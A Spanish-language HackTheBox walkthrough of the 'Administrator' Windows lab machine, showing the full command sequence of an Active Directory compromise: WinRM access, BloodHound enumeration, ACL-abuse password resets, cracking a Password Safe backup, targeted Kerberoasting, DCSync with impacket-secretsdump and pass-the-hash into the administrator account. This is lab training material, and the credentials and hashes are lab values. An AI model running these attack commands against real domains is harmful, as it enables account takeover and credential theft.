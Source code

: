 # Máquina Administrator

Enlace a la máquina -> [HackTheBox](https://app.hackthebox.com/machines/Administrator)

![imagen](https://github.com/user-attachments/assets/241cde4a-5d89-4d35-a6dd-978c9c7ea025)

- **Nombre de la Máquina:** Administrator  
- **Sistema Operativo:** Windows  
- **Dificultad:** Medio  
- **Plataforma:** Hack The Box  
- **Dirección IP:** 10.10.11.42 
- **Skills**
  - Nmap Scanning
  - WinRM Enumeration and Exploitation
  - Password Cracking with John the Ripper
  - Kerberoasting Attack
  - Active Directory Enumeration
  - BloodHound Analysis
  - Privilege Escalation via User Permissions
  - Password Dumping with impacket-secretsdump
  - FTP Enumeration
  - Password Safe Decryption
  - Pass The Hash Attack

## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general utilizando Nmap para identificar los puertos abiertos y sus versiones en la IP del objetivo:

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn -sCV 10.10.11.42 -oN escaneo.txt
```

Por el escaneo vemos que es un común Windows server. En la descripción de la máquina pone lo siguiente:

![imagen](https://github.com/user-attachments/assets/ae944972-c2d9-4524-ae3d-4bae2ec86b25)

Quiere decir que como es habitual en los pentests de Windows de la vida real, iniciará el cuadro de Administrador con las credenciales de la siguiente cuenta: Nombre de usuario: Olivia Contraseña: ichliebedich.

### WinRM - 5985

Probaremos a usar 'netexec' para comprobar si tenemos control remoto del usuario.

```bash
nxc winrm 10.10.11.42 -u 'olivia' -p 'ichliebedich'
```

![imagen](https://github.com/user-attachments/assets/51176189-79d2-4d55-9e6d-a218a49f5d66)

Tenemos el mensaje de pwn3d! por lo cual tenemos ejecución remota de comando con WinRm, accederemos con **evil-winrm**.

```bash
evil-winrm -i 10.10.11.42 -u 'olivia' -p 'ichliebedich'
```

![imagen](https://github.com/user-attachments/assets/15a3d8bf-65a4-4c50-9371-537ee5497c12)

Enumerando el sistema me encuentro con que existe otro usuario llamado **emily**, pero no me quedo conforme, vamos a enumerar con 'netexec' todos los usuarios posibles.

```bash
nxc smb 10.10.11.42 -u 'olivia' -p 'ichliebedich' --rid-brute
```

![imagen](https://github.com/user-attachments/assets/60a720c8-a281-4d44-9ff2-f5ec402e830c)

Pues ahí tenemos una lista grande de usuarios disponibles, pero al intentar un ataque **AS-REPRoasting** no sacamos nada relevante. Seguiremos enumerando pero usando bloodhound.

Subiremos un archivo llamado **SharpHound.exe** vía winrm y lo ejecutamos.

```bash
upload /home/kali/Desktop/HackTheBox/SharpHound.exe
.\SharpHound.exe -c all
```

![imagen](https://github.com/user-attachments/assets/80f4fd3c-f40f-4807-b39f-0336ca6c8cb9)

Una vez terminado descargamos el **.zip** en nuestra máquina kali y lo cargamos en bloodhound.

```bash
download 20241217142202_BloodHound.zip
sudo neo4j console &>/dev/null & disown
bloodhound -no-sandbox &>/dev/null & disown
```

![imagen](https://github.com/user-attachments/assets/5ea14435-054d-4079-836d-d85c422d14c6)

Seleccionamos el usuario con el cuál tenemos acceso principalmente y comenzamos a enumerar.

![imagen](https://github.com/user-attachments/assets/ea455925-2e93-44a4-bfa5-5ebddd374d3e)

Pues he encontrado una sección en la que me dice que el usuario **olivia** tiene control total sobre el usuario michael, por lo cuál podriamos cambiarle la contraseña y acceder a su usuario.

![imagen](https://github.com/user-attachments/assets/1442d4b9-9a97-4904-bf22-6e1620e24c3e)

![imagen](https://github.com/user-attachments/assets/250130d4-4333-428b-b4f0-6f5d342ad65d)

Podemos hacerlo vía kali linux como explica en bloodhount.

![imagen](https://github.com/user-attachments/assets/558376e1-d8c8-4115-a39c-67ce7ded3188)

```bash
net rpc password "michael" 'Password123!' -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
```

Como podemos observar, hemos cambiado la contraseña del usuario michael y lo comprobamos con netexec.

```bash
nxc smb 10.10.11.42 -u 'michael' -p 'Password123!'
nxc winrm 10.10.11.42 -u 'michael' -p 'Password123!'
```

![imagen](https://github.com/user-attachments/assets/6cf47e1b-99af-41d4-a9b7-188ae16f7102)

![imagen](https://github.com/user-attachments/assets/ea814f7f-c6d3-4855-b29a-afaa3bda1e30)

Accedí via winrm pero no encontré nada interesante.

![imagen](https://github.com/user-attachments/assets/45ae3131-9291-4f11-8583-903e1597cb52)

Volvemos a bloodhound y buscaremos vectores de ataque pero desde el usuario **michael**.

![imagen](https://github.com/user-attachments/assets/2e1831b5-e8f6-45ef-ad07-6ae357fa5a75)

Pues podemos forzar a cambiar la contraseña al usuario **Benjamin**.

![imagen](https://github.com/user-attachments/assets/f873142a-7b21-47f2-86aa-d6f91102e60e)

Podemos hacerlo de la misma manera que con **michael**, vía rpc.

```bash
net rpc password "benjamin" 'Password123!' -U "administrator.htb"/"michael"%'Password123!' -S "10.10.11.42"
```

Ya habremos cambiado la contraseña pero no podía acceder vía winrm y me quedé atascado, volví a leer el escaneo de nmap y me dí cuenta de que el puerto ftp está abierto y probé con las credenciales de **benjamin** y pude acceder al puerto FTP.

```bash
nxc ftp 10.10.11.42 -u 'benjamin' -p 'Password123!'
```

![imagen](https://github.com/user-attachments/assets/dc3bea54-d3ae-4bd6-bc1a-a4da62423353)

```bash
ftp benjamin@10.10.11.42
get Backup.psafe3
```

![imagen](https://github.com/user-attachments/assets/01216380-7661-408a-aa2c-535c8eb86fae)

Vemos un archivo con extensión **.psafe3**, investigando por google al parecer es un archivo de un gestor de contraseñas, el cuál podremos crackear usando **john the ripper**.

```bash
pwsafe2john Backup.psafe3 > backup_hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup_hash
```

![imagen](https://github.com/user-attachments/assets/d30f407f-9209-40e5-867e-5a7065ec66fe)

Abriremos el gestor de contraseñas y veremos a más usuarios con sus credenciales.

![imagen](https://github.com/user-attachments/assets/d92ced5f-3e30-4588-8461-d48347c794d6)

![imagen](https://github.com/user-attachments/assets/5cf8f158-3c1b-4cee-a864-07617d2422a6)

![imagen](https://github.com/user-attachments/assets/93b472f3-ab95-4104-8ae4-300d2061fbc8)

Accediendo vía winrm encontramos la flag **user.txt** dentro del usuario **emily**.

![imagen](https://github.com/user-attachments/assets/e5456aec-5a07-43dc-a0d8-f02dfa100373)

Enumeramos por bloodhound y vemos lo siguiente.

![imagen](https://github.com/user-attachments/assets/5e6bf503-a7f1-4a25-aad9-69eb2818e0f5)

# Explotación

---

### Kerberoasting attack

La herramienta intentará automáticamente un ataque de Kerberoast dirigido, ya sea contra todos los usuarios o contra uno específico, si se especifica en la línea de comandos, y luego obtendrá un hash que se puede crackear. También se realiza la limpieza automáticamente.

El hash recuperado puede crackearse sin conexión usando la herramienta que **john**.

![imagen](https://github.com/user-attachments/assets/4d6d2f66-771f-4e72-a937-3f9708099dde)

```bash
sudo ntpdate administrator.htb
python3 targetedKerberoast.py -d administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb -v
```

![imagen](https://github.com/user-attachments/assets/5490cb7e-f8d7-4b7e-8b15-92f4fa163890)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt kerb.hash
```

![imagen](https://github.com/user-attachments/assets/9c443aca-c0f1-4fae-b3f9-c09cc7fb3816)

Tenemos la password de **ethan**, y si vemos otra vez bloodhound, vemos que podemos hacer un ataque **DCSync**.

![imagen](https://github.com/user-attachments/assets/be169341-34fa-430c-a11a-18af6b15f70d)

Podremos sacar los hashes de los usuarios usando la herramienta de impacket **secretdump**.

![imagen](https://github.com/user-attachments/assets/bb4cad9c-3751-44e4-a791-a30099dc06cb)

```bash
impacket-secretsdump administrator.htb/ethan:'limpbizkit'@10.10.11.42
```

![imagen](https://github.com/user-attachments/assets/94f7bd95-8584-4bef-bf96-61ae8b8dff07)

# Escalada de privilegios

---

Haremos un **pass the hash** con el usuario administrador para comprobar si tenemos acceso.

```bash
nxc winrm 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

![imagen](https://github.com/user-attachments/assets/1e1a31ea-2ea8-454e-88f8-157730d68e11)

Podemos acceder al usuario **Administrator**.

```bash
evil-winrm -i 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

![imagen](https://github.com/user-attachments/assets/5c397941-0240-4c7f-bb25-997f656a72a4)

¡Máquina vulnerada al completo!
